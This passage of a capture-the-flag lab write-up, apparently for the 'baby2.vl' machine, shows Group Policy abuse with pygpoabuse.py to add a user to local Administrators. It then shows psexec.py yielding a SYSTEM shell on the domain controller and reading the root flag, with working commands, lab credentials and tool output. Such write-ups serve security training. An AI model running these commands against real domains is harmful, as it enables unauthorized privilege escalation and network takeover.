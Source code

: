 ```bash
python3 pygpoabuse.py baby2.vl/gpoadm:'Password123!' \   -gpo-id "31b2f340-016d-11d2-945f-00C04FB984F9" \   -command 'net localgroup administrators GPOADM /add' -f \   -dc-ip 10.10.124.123
```

### Flags / arguments — what they mean

- `baby2.vl/gpoadm:'Password123!'` — authenticate to the domain as `gpoadm` using the password you set earlier.
    
- `-gpo-id "31b2f340-016d-11d2-945f-00C04FB984F9"` — GPO GUID to abuse. (`31B2F340-016D-11D2-945F-00C04FB984F9` is the common GUID for the **Default Domain Policy**.)
    
- `-command 'net localgroup administrators GPOADM /add'` — command the GPO will execute on targeted machines (adds `GPOADM` to the local Administrators group).
    
- `-f` — force or non-interactive mode (auto-confirm).
    
- `-dc-ip 10.10.124.123` — IP of the domain controller to talk to (if needed by the tool).
    

### Tool output

```output
SUCCESS:root:ScheduledTask TASK_5701378a created! [+] ScheduledTask TASK_5701378a created!
```
**Interpretation:** the tool successfully created/modified the GPO so that it deploys a Scheduled Task (or run-once command) which will run your specified `net localgroup ... /add` on the target systems.

### Step — Gain Domain Admin Shell with `psexec.py`

Now that **gpoadm** was added to the **local Administrators group** via GPO abuse, you can use **Impacket’s PsExec** to execute commands remotely on the Domain Controller with full SYSTEM privileges:

```bash
psexec.py baby2.vl/gpoadm:'Password123!'@10.10.124.123
```

**Output:**

- Writable share **ADMIN$** found.
    
- Service was created & started successfully.
    
- You received a **SYSTEM shell** on the Domain Controller:
    

`Microsoft Windows [Version 10.0.20348.1906] (c) Microsoft Corporation. All rights reserved.  C:\Windows\system32>`

---
```bash
C:\Users\Administrator\Desktop> type root.txt
VL{f0205b652ed74c5deed92b7a6a163516}
```

